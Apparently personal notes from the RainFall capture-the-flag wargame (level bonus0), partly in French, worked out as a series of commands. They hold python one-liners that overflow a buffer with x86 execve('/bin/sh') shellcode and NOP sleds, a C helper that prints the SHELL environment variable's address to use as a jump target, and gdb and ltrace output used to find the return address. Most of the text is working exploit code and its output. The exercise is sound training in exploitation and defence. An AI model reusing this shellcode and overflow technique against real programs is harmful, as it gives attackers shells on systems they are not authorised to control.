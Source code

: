 
echo "python -c 'print 
"A"*4096 + "\n" + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\x10\xfc\xff\xbf"')"






#include <stdio.h>
#include <stdlib.h>

int main(int argc, char *argv[])
{
    char* ptr = getenv("SHELL");
    printf("%p\n", ptr);
}


bonus0@RainFall:/tmp$ python -c "print 'A'*4095 + '\n' + 'BBBBBBBBBBBBBBBBB'" > /tmp/test

bonus0@RainFall:/tmp$ cat  /tmp/test - | ltrace ./bonus0


AAAAAAAAAAAAAAAAB depasse de 1 


AAAAAAAAAAAAAAAA OK  16 charactere 18 ? > 

with segfault :

Breakpoint 1, 0x080484b4 in p ()
(gdb) i r $esp
esp            0xbffff65c	0xbffff65c
(gdb) x/4xw $esp
0xbffff65c:	0x08048539	0xbffff688	0x080486a0	0x00000000
(gdb) c
Continuing.
 -

Breakpoint 1, 0x080484b4 in p ()
(gdb) i r $esp
esp            0xbffff65c	0xbffff65c
(gdb) x/4xw $esp
0xbffff65c:	0x0804854c	0xbffff69c	0x080486a0	0x00000000
(gdb) c



with 65 A 

Breakpoint 1, 0x080484b4 in p ()
(gdb) i r $esp
esp            0xbffff65c	0xbffff65c
(gdb) x/4xw $esp
0xbffff65c:	0x08048539	0xbffff688	0x080486a0	0x00000000
(gdb) c
Continuing.
 -

Breakpoint 1, 0x080484b4 in p ()
(gdb) i r $esp
esp            0xbffff65c	0xbffff65c
(gdb) x/4xw $esp
0xbffff65c:	0x0804854c	0xbffff69c	0x080486a0	0x00000000


BFFFF65D adresse suivante 

bonus0@RainFall:~$ python -c "print 'A'*4095 + '\n' + 'A'*16 + '\xff\xf8\xff\xbf'" > /tmp/test

a * 16 + BFFFF65D + shellcode 
'A'*16 + 
'\x5d\xf6\xff\xbf' +  '\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh'



python -c "print 'A'*4095 + '\n' + 'A'*9 + '\x03\xf8\xff\xbf' + 'C'*3000" > /tmp/test

'\xff\xf8\xff\xbf'
sh env 0xbffff8ff

my sh 0xbffff803

python -c "print 'A'*4095 + '\n' + 'A'*16 + '\x03\xf8\xff\xbf'" > /tmp/test





python -c "print 'A'*4095 + '\n' + '\x90'*42+'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'+'\x60\xf5\xff\xbf'" > /tmp/test

0xbffff560


b *0x08048559


0xbffff803